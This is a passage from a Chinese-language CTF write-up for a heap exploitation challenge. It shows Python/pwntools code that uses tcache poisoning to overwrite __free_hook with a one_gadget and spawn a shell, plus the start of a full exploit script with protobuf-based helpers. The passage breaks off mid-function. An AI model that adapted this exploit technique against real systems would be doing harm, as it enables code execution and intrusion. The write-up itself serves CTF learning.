 泄露出来libc之后就轻松了。泄露出来libc之后，chunk2对于我们来说已经没有用了，他也拿去给unpack随便切割。我们接下来要申请一些tcache chunk进行tcache poisoning，完成对free hook的劫持，劫持成one gadget。需要注意的是我们申请的堆块不能是0x50或者是0x20的，因为他们一旦进入了tcachebin，那么在下一次操作的时候就会被unpack给申请走，那就麻烦了。这里很简单就不讲了，如果不会，建议先去学tcachebin attack，学ptmalloc2机制。

```python
add(5, 0x70)
add(6, 0x70)
delete(5)
delete(6)
edit(6, p64(libc_base+libc.symbols['__free_hook']))

add(7, 0x70)
add(8, 0x70, p64(libc_base+0xe3afe))

delete(7)  # getshell
```

### 0x04 EXP
```python
from pwn import *
import message_pb2 as pb
r = process('./bot')
# r = remote("43.248.97.213", 30202)
e = ELF('./bot')
libc = ELF('./libc.so.6')
context.log_level = 'debug'


def repeater(idx, len, content):
    msg = pb.Message_request()
    msg.id = idx
    msg.sender = 'admin'
    msg.len = len
    msg.content = content
    msg.actionid = 0
    r.sendafter(b'TESTTESTTEST!\n', msg.SerializeToString())


def add(idx, len, content=b'c_lby'):
    msg = pb.Message_request()
    msg.id = idx
    msg.sender = b'admin'
    msg.len = len
    msg.content = content
    msg.actionid = 1
    r.sendafter(b'TESTTESTTEST!\n', msg.SerializeToString())


def delete(idx):
    msg = pb.Message_request()
    msg.id = idx
    msg.sender = b'admin'
    msg.len = 1
    msg.content = b'c_lby'
    msg.actionid = 2
    r.sendafter(b'TESTTESTTEST!\n', msg.SerializeToString())


def show(idx):
    msg = pb.Message_request()
    msg.id = idx
    msg.sender = b'admin'
    msg.len = 1
    msg.content = b'c_lby'
```